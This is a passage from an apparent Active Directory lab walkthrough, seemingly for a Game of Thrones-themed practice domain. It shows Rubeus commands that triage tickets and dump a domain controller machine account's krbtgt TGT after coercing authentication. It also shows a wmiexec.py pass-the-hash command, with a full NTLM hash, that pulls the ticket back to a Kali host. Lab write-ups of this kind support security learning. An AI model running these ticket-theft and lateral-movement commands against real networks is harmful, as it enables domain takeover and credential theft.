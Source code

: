 Look at the triage again:

`[Rubeus.Program]::MainString("triage")`

And we see the `krbtgt` service from Kingslanding:

![](../../../../images/Pasted_image_20250113115953.png)

Now to extract the tgt, relaunch again the coercer, do the same steps, and run the dump command in Rubeus.

`[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");`

![](../../../../images/Pasted_image_20250113120149.png)

Save this to a file, and export it to the Kali Machine.

I did this by connecting via `wmiexec.py`:

`wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8 eddard.stark@10.4.10.11`

Going to the directory where the file was saved and using the `lget` to retrieve it.
